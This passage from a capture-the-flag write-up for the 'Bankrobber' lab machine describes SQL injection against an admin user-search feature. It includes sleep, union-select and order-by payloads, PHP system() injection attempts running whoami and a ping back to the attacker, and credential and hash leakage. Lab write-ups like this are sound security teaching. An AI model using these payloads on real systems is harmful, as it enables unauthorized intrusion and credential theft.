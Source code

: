 The application has **two new features** available for **admin** user, one of them allows me to perform queries on the existing web application users (most probably) and the other one that would allow me to execute the `dir` command is only accessible from the localhost (**::1**). My instinct dictates me to try a **SQLi** on the query sent in the **Search users (beta)**, and from the message I get I find that the server seems to be vulnerable to this type of attack. I adjust my injection and manage to leak information from the database - **DB name**, **user**, etc. I get the list of all the Databases, but when I try to execute command by injecting **PHP** code directly into the query I don't achieve my goal.

```bash
# https://10.10.10.154/admin/
#  1' and sleep(5)-- -
#  1' or sleep(5)-- -                                                                                        :)
#  1' or 1=1-- -
#  1' order by 4-- -
#  1' order by 3-- -                                                                                         :)
#  1' union select 1,2,3-- -
#  1' union select 1,database(),3-- -
#  1' union select 1,user(),3-- -
#  1' union select 1,version(),3-- -
#  1' union select 1,"<?php system('whoami'); ?>",3-- -

tcpdump -i tun0 icmp -n
#  1' union select 1,"<?php system('ping -n 10.10.14.10'); ?>",3-- -                                         :(
```

<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I will continue to leak information from the **bankrobber** Database, such as tables and columns. The only thing I find is the **admin** user password, which I already had, so I look for more credentials in other Databases and find the hash of the **root** password (but I can't crack it with `john` because it must use a very strong cryptographic hash function).
